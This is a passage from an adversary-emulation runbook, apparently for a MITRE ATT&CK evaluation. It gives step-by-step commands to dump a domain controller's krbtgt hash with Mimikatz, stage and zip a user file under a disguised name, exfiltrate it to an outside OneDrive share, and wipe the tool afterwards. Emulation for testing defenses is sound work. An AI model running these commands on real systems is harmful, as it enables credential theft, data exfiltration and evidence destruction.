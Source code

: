 **Note:** If you get an error here, reboot domain controller, then re-run the 2 winrm setup commands before re-executing 16.C

#### 16.D
		
1.  Execute `Copy-Item m.exe -Destination "C:\Windows\System32\" -ToSession $[session_id]`
    *  `m.exe` is a copy of the Mimikatz executable (available at https://github.com/gentilkiwi/mimikatz)
2.  Execute `Invoke-Command -Session $[session_id] -scriptblock {C:\Windows\System32\m.exe privilege::debug "lsadump::lsa /inject /name:krbtgt" exit} | out-string`
3.  Take note of value for the NTLM hash (ex: `NTLM : f4a688010d80770a55a22893dc6ac510`) near the top (Under RID and User after `* Primary`)
4.  Execute `Get-PSSession | Remove-PSSession`

### Step 17 - Collection

#### 17.A

1.  Interact with low integrity callback
2.  Load `stepSeventeen_email.ps1`
3.  Execute `psemail`

#### 17.B

1.  Interact with high integrity callback
2.  Execute `New-Item -Path "C:\Windows\Temp\" -Name "WindowsParentalControlMigration" -ItemType "directory"`
3.  Execute `Copy-Item "C:\Users\oscar\Documents\MITRE-ATTACK-EVALS.HTML" -Destination "C:\Windows\Temp\WindowsParentalControlMigration"`

#### 17.C

1.  Load `stepSeventeen_zip.ps1`
2.  Execute `zip C:\Windows\Temp\WindowsParentalControlMigration.tmp C:\Windows\Temp\WindowsParentalControlMigration`

### Step 18 - Exfiltration

#### 18.A

1.  Get CID for OneDrive account (https://www.laptopmag.com/articles/map-onedrive-network-drive)
2.  Execute `net use y: https://d.docs.live.net/[CID] /user:[OneDrive account]@outlook.com "[OneDrive password]"`
3.  Execute `Copy-Item "C:\Windows\Temp\WindowsParentalControlMigration.tmp" -Destination "Y:\WindowsParentalControlMigration.tmp"`
4.  Login to https://onedrive.live.com/?id=root&cid=[CID] to see exfil (`WindowsParentalControlMigration.tmp`)

### Step 19 - Clean UP

#### 19.A

1.  Load `wipe.ps1`
2.  Execute `wipe "C:\Windows\System32\m.exe"`
    